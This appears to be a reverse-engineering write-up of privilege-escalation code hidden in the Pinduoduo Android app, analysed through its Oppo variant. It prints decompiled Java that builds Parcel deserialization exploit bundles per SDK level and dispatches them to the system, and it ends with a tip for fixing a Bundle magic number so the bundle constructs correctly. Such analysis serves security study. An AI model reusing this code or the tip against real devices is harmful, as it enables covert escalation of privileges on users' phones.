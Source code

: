   # Reverse engineering of PDD privilege escalation code

PDD's privilege escalation code for mobile phones from several major manufacturers is similar. They all use WorkSource's deserialization vulnerability. Therefore, here we take Oppo's privilege escalation code as an example to briefly analyze the process.

## Logical sorting
- com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup, this class is the class where the oppo model privilege escalation code is located. It inherits com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp, and CommonAlivePullStartUp in turn inherits com.xunmeng.pinduoduo .alive.base.ability.impl.provider.oppoLauncher.OppoLauncherProviderImpl, com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider.BaseBizProviderImpl (BaseBizProviderImpl is implemented in Pinduoduo main App, please refer to version 6.44), BaseBizProviderImpl implementation com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider.IBizProvider:
```java
    package com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider;
    
    public interface IBizProvider {
        boolean hasPermission();
    }
```

    The code of the IBizProvider interface class contains only one method hasPermission().
    
    There is some privilege escalation code in the CommonAlivePullStartUp class, which is used by all levels of the Android SDK, including 31.
    There are intParcelClzMap() and initFuncMap() methods in the CommonAlivePullStartUp class. The initFuncMap() method is used to construct the privilege escalation bundle. The privilege escalation bundle stores an object of class OppoLauncherProviderImpl. This object should be generated after OppoLauncherProviderImpl implements the Function interface class. an object:
```java
    public void initFuncMap() {
            this.sFuncMakeBundleMap.put("android.os.WorkSource", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp.1
                public Bundle makeBundle(Intent intent) {
                    return CommonAlivePullStartUp.this.makeBundleForWorkSource(intent);
                }
            });
        }
```  
    Each manufacturer's privilege escalation code inherits the CommonAlivePullStartUp class and implements its own intParcelClzMap() and initFuncMap() methods:
```java
    /* JADX INFO: Access modifiers changed from: protected */
        @Override // com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp
        public void intParcelClzMap() {
            List asList = Arrays.asList("com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse", "com.android.internal.telephony.OperatorInfo");
            for (int i = 26; i <= 29; i++) {
                this.sParcelableClzMap.put(Integer.valueOf(i), asList);
            }
            this.sParcelableClzMap.put(30, Arrays.asList("com.oplus.orms.info.OrmsNotifyParam", "com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse"));
            super.intParcelClzMap();
        }
    
    
    /* JADX INFO: Access modifiers changed from: protected */
        @Override // com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp
        public void initFuncMap() {
            super.initFuncMap();
            this.sFuncMakeBundleMap.put("com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.1
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoSinceOToQ(intent, "com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse");
                }
            });
            this.sFuncMakeBundleMap.put("com.android.internal.telephony.OperatorInfo", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.2
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoSinceOToQ(intent, "com.android.internal.telephony.OperatorInfo");
                }
            });
            this.sFuncMakeBundleMap.put("com.oplus.orms.info.OrmsNotifyParam", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.3
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoForR(intent);
                }
            });
        }
```
    
    Among them, the code of the Function interface class is as follows:
```java
    package com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup;
    
    import android.content.Intent;
    import android.os.Bundle;
    
    public interface Function {
        Bundle makeBundle(Intent intent);
    }
```   
- Continuing to sort it out, there is a makeBundle(Intent intent) method in the AlivePullStartUpImpl class. This method calls the makeBundle(Intent intent) method through the this.mMakeBundleFunction property (that is, the makeBundle(Intent intent) method of the Function interface class. The implementation of this method In the initFuncMap() method of the XXAlivePullStartup class, it passes in an intent to write the bundle used for vulnerability privilege escalation). This is very important. When the upper layer exploits the vulnerability, it should call the makeBundle(Intent intent) method of AlivePullStartUpImpl to obtain an Bundle to exploit the vulnerability:
```java   
    public Bundle makeBundle(Intent intent) {
            if (intent == null) {
                Logger.w("SpecialPullAbility.Comp", "make empty bundle");
                return new Bundle();
            }
            Logger.i("SpecialPullAbility.Comp", "make bundle");
            if (this.mMakeBundleFunction == null) {
                Logger.i("SpecialPullAbility.Comp", "no make bundle function");
                return Bundle.EMPTY;
            }
            Bundle makeBundle = this.mMakeBundleFunction.makeBundle(intent);
            return makeBundle == null ? Bundle.EMPTY : makeBundle;
        }
```    
    
    There is also a startAccount(Intent intent) method in the AlivePullStartUpImpl class, and the realStartAccount(Intent intent) method is called through this method. These two methods are to send the constructed deserialization vulnerability code to AMS to complete the privilege escalation:
```java
    private boolean realStartAccount(Intent intent) {
            Logger.i("SpecialPullAbility.Comp", "real start accountSettings activity.");
            try {
                BotBaseApplication.getContext().startActivity(intent);
                return true;
            } catch (Exception e) {
                StartPullUpTrack.trackScene("start_account_exception");
                Logger.e("SpecialPullAbility.Comp", e);
                return false;
            }
    }
```  
- Going up from class AlivePullStartUpImpl is the class: com.xunmeng.pinduoduo.alive.base.ability.comp.Main, which is the upper-level class used by privilege escalation vulnerabilities. Create an AlivePullStartUpImpl object in this class to complete privilege escalation. operate:
```java    
    public class Main {
        private static final String TAG = null;
    
        public static IAlivePullStartUp getAlivePullStartUp() {
            Logger.i("LVBA.Plugin.Main", "getAlivePullStartUp");
            return new AlivePullStartUpImpl();
        }
    
        public static IStrategy createStrategyProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createStrategyProxy: " + str);
            return (IStrategy) ComponentContainer.getComponent(str);
        }
    
        public static IAliveBaseAbility getAliveBaseAbility() {
            Logger.i("LVBA.Plugin.Main", "getAliveBaseAbilityInstance");
            return new AliveBaseAbilityImpl();
        }
    
        public static IReceiver createReceiverProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createReceiverProxy: " + str);
            return (IReceiver) ComponentContainer.getComponent(str);
        }
    
        public static IVivoBindServiceComp getLauncherDetectVivoBindService() {
            Logger.i("LVBA.Plugin.Main", "getLauncherDetectVivoBindService");
            return VivoBindService.getInstance();
        }
    
        public static Boolean hasComponent(String str) {
            Logger.i("LVBA.Plugin.Main", "hasComponent: " + str);
            return Boolean.valueOf(ComponentContainer.getComponent(str) != null);
        }
    
        public static IActivity createActivityProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createActivityProxy: " + str);
            return (IActivity) ComponentContainer.getComponent(str);
        }
    
        public static IService createServiceProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createServiceProxy: " + str);
            return (IService) ComponentContainer.getComponent(str);
        }
    
        public static Set getComponentNames() {
            Logger.i("LVBA.Plugin.Main", "getComponentNames");
            return ComponentContainer.getComponentNames();
        }
    
        public static IPluginPAStrategyUtil getIPluginPAStrategyUtil() {
            Logger.i("LVBA.Plugin.Main", "getIPluginPAStrategyUtil");
            return new PluginPAStrategyUtilImpl();
        }
    }
```
## Possible problems
- When constructing a privilege-elevated bundle, the following error may be reported:
 ```
 java.lang.IllegalStateException: Bad magic number for Bundle: 0x444e4c42
```
This is due to an error in jadx decompiling the PDD code, and the magic number of the bundle is wrong. It should be changed to 0x4C444E42 to solve the problem.

Statement: The analysis here is for learning reference only. Illegal use is strictly prohibited, otherwise the illegal users will be responsible for the consequences!
